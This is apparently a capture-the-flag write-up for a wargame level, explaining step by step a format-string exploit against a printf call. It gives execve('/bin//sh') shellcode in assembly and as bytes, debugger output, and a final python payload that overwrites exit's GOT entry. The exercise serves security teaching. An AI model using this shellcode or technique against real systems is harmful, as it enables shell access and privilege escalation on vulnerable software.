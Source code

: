 # Got some more printf (level05)

This [binary](source.c) takes 100 bytes of user input through a secure `fgets`
call. Then it loops on the characters of the resulting string and basically
applies a `tolower` function to each one. When it's done, it prints the _input_
buffer directly with `printf` and exits.

As usual, we can exploit the hell out of this insecure `printf` call.

```shell
# run  the binary
./level05
# give it some input
iiii%10$p
# see the result
iiii0x69696969
```

We reach into our buffer at the 10th parameter. Now, since `exit` is called
right after the printf, what we're gonna do is overwrite its got address and
replace it with the address of the shellcode that we're going to give as input.

Using ltrace, we can get the address of the input buffer:

```shell
# launch the binary with ltrace
ltrace ./level05
__libc_start_main(0x8048444, 1, -9228, 0x8048520, 0x8048590 <unfinished ...>
# give it some input
fgets(iiii%10$p
# see the result
"iiii%10$p\n", 100, 0xf7fcfac0)                            = 0xffffdae8
printf("iiii%10$p\n", 0x64iiii0x69696969
)                                      = 15
exit(0 <unfinished ...>
+++ exited (status 0) +++
```

This traces each library calls and shows their parameters and return values.
What is a little bit annoying with ltrace is that when it detects a character
pointer or buffer it automatically shows a string and not the address, except on
the return value. Since, on success, `fgets` returns the buffer it was given in
input, the address of our buffer is: 0xffffdae8.

Here is the shellcode we are going to use:

```nasm
section .text
global _start
_start:
xor		ecx, ecx	; set ecx to 0 (argv == NULL)
xor		edx, edx	; set edx to 0 (envp == NULL)
push	ecx			; push 0 to the stack to end the command string
push	0x68732f2f	; "//sh" end of the command string
push	0x6e69622f	; "/bin" start of the command string
mov		ebx, esp	; set ebx to the start of the command string
push	0xb			; push 11 (execve int number)
pop		eax			; set eax to 11
int		0x80		; execve("/bin//sh", NULL, NULL)
```

> It is very similar to the one used in rainfall's
> [bonus 0](https://github.com/Taiwing/rainfall/tree/master/bonus0), except that
> it is shorter since argv is set to NULL (because we can).

Using the compile\_nasm.bash and generate\_shellcode.bash scripts from
rainfall's shellcode
[guide](https://github.com/Taiwing/rainfall/tree/master/shellcode) we get this
string:

`\x31\xc9\x31\xd2\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80`

This should work, although we have a little problem since some bytes in the
shellcode do match uppercase ascii letters. If we just put it in our buffer like
that these values are going to be modified and the shellcode wont work. What we
need to do is add a null byte after our format string and then our payload. This
will work because `fgets` does not stop on a null byte but either on a newline
or an EOF and it will protect our payload since `strlen` will stop on the null
byte.

Now we need `exit`'s got address for the target of our %n conversion:

```shell
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

Lets build the payload. The first four bytes are going to be `exit`'s got
address. Then we're going to add an integer conversion and set its field width
to the address of our shellcode - 4 bytes (for the first four bytes already in
the format string). Then the %n conversion which is going to target got's
address and write into it the number of characters already printed (so the last
conversion's field width + 4).

The buffer starts at 0xffffdae8, which is 4294957800 in decimal. We should as
usual use padding to write the address of the shellcode and replace `exit`'s got
address. The problem here is that the padding we need is way to big to be passed
directly to a single conversion. The maximum I have been able to specify is:
470000000 which is a little bit more than a tenth of what we want. This is
annoying. Also writing all those zeroes is very long. I'm not even sure that
printf would not return an error before that. But we can do something smarter.

The n parameter need not be an int pointer. It can also be a short or even a
char pointer. This means that we can write our big number with two or four n
conversions, which will be way easier and faster. The address we want to write
is that of our shellcode. There is 36 bytes of payload (counting the null byte)
before the shellcode, so the address we want to write is 0xffffdb0c.

First we're going to write the lowest part of the address "0xdb0c". This is a
padding of 56076, minus 8 for the two addresses before the first padding
conversion so 56068. We take the 10th parameter for the first n conversion, so
the first address in our buffer. We use the 'h' modifier to write a short int,
so two bytes.

Then we must write the two upper bytes of our address, so "0xffff". We have
already written 56076 bytes. Since "0xffff" is 65535 in decimal, we must still
write 65535 - 56076 bytes. This is a padding of 9459 for the second conversion.
Then, the second n conversion will write these two bytes to the 11th parameter's
value, which is the second address in our buffer. This is the previous one + 2
to skip the upper bytes.

```shell
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%056068u%10$hn" + "%09459u%11$hn" + "\x00\x31\xc9\x31\xd2\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80"'; cat) | ./level05
```
